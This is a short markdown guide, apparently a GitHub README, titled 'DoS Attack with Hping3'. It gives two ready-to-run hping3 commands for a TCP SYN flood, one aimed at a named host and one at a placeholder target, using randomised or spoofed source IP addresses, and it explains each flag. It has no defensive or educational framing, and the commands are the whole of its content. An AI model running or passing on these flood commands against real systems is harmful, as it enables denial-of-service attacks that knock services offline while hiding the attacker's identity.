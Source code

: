 # DoS Attack with Hping3

Run this command
```
hping3 --flood -S --rand-source http://stv.com
```

Where:

`--flood` send packets as fast as possible

`-S` (Syn packet): legit TCP packet connection

`--rand-source` randomize the IP source address, like it's requested from different systems (sort of DDoS)

OR
```
sudo hping3 --flood -S -d 2000 -a <fake_ip> <target_ip>
```

Where:

parameter `-d` or `--data` to modify the weight of the sent data

`-a` or `--spoof` to use a single fake IP instead of multiple ones